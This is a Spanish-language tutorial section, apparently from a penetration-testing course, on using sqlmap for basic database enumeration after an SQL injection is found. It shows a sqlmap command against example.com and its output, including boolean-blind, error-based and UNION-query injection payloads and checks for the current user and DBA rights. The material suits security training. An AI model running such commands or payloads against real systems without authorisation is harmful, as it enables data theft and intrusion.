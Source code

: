 
## Basic DB Data Enumeration

Usualmente, después de una detección exitosa de una vulnerabilidad SQLi, podemos comenzar la enumeración de detalles básicos de la base de datos, como el nombre de host del objetivo vulnerable (`--hostname`), el nombre del usuario actual (`--current-user`), el nombre de la base de datos actual (`--current-db`) o los hashes de contraseñas (`--passwords`). SQLMap omitirá la detección de SQLi si se ha identificado previamente y comenzará directamente el proceso de enumeración del DBMS.

La enumeración generalmente comienza con la recuperación de la información básica:

- Banner de versión de la base de datos (conmutador `--banner`)
- Nombre del usuario actual (conmutador `--current-user`)
- Nombre de la base de datos actual (conmutador `--current-db`)
- Verificación de si el usuario actual tiene derechos de DBA (administrador).

El siguiente comando de SQLMap hace todo lo anterior:


```r
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY o GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

```